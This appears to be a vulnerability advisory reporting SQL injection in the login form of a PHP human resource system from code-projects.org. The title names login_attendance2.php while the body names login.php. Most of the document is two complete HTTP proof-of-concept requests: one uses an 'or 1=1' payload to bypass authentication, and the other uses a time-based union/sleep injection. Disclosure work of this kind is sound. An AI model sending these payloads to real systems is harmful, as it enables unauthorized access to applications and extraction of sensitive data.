

# Human Resource Integrated System has SQL Injection in login_attendance2.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

login.php

## Describe

The user and pass parameters in login.php are vulnerable to SQL injection due to the lack of proper sanitization and parameterization. This allows attackers to exploit the inputs using universal bypass payloads to gain unauthorized access to the application. Additionally, there are timing-based SQL injections, where attackers can leverage functions like SLEEP() to introduce intentional delays in database responses. This vulnerability enables attackers to extract sensitive information from the database and poses a significant risk to the security of the authentication system.



## POC

```
POST /login.php HTTP/1.1
Host: hris
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&user=1&pass=1'+or+'1'='1
```

Send this request, you can bypass authentication to gain access to the system.

```
POST /login.php HTTP/1.1
Host: hris
Content-Length: 90
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&user=1&pass=1'+union+select+1,1,1,1,sleep(5)--+
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.